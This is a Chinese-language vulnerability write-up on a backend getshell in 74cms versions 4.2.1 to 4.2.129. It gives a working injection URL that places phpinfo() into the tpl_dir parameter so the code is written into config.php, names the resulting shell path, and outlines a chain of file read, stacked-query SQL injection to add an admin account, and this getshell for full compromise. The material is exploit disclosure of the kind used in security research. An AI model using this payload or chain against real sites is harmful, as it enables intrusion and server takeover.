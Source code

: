 # 74cms v4.2.1-v4.2.129-后台 getshell 漏洞

> 原文：[http://book.iwonder.run/0day/74cms/新版 74cms v4.2.1-v4.2.129-后台 getshell 漏洞.html](http://book.iwonder.run/0day/74cms/新版 74cms v4.2.1-v4.2.129-后台 getshell 漏洞.html)

## 0x00 前言

厂商：74cms 下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html) 关于版本： 新版的 74cms 采用了 tp3.2.3 重构了，所以可知底层是 tp，74cms 新版升级是后台升级的，所以先将将升级方法。 注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms 升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包) 2， 将下载好的包进行安装 3， 进入后台点击查看如果不是最新版的话，请点击升级！ 4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决 5， 搜索文件 74cms\upload\Application\Admin\Controller\ApplyController.class.php 6， 查找所有$_SERVER['HTTP_HOST'] 改为 [http://baidu.com](http://baidu.com) 即可

## 0x02 漏洞演示

![image](img/15ace08c2bb8b5b7fcb4af76c1af6540.png)

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

shell:http://74cms.test/Application/Home/Conf/config.php
路径：\74cms\upload\Application\Home\Conf\config.php 
```

![image](img/f4d74b0eb21d5b44767ad96ae6ce1bad.png)

![image](img/4ce2f145f7572ad197b1c90a3cd24ce0.png)

## 0x03 漏洞原理

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php 
```

![image](img/1b72ab8423e14c695c383f5f60b80dd2.png)

```
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php 
```

![image](img/867a98fb7d3063529663b8a52332be5c.png)

## 0x04 题外话-认真版 getshell 方法

认真版 getshell 方法： 实际上想要进行 getshell 利用组合漏洞是很简单的事情。我的前台日到后台的 getshell 方法是这样的。 首先利用-任意文件读取漏洞-读取系统中的 hash 值 然后在通过漏洞-前台 sql 注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行 mysql 双语句插入一条管理员用户 在通过这个后台 getshell 漏洞 即可完成一套日穿

## 四、参考链接

> [https://www.yuque.com/pmiaowu/bfgkkh/wecilm](https://www.yuque.com/pmiaowu/bfgkkh/wecilm)


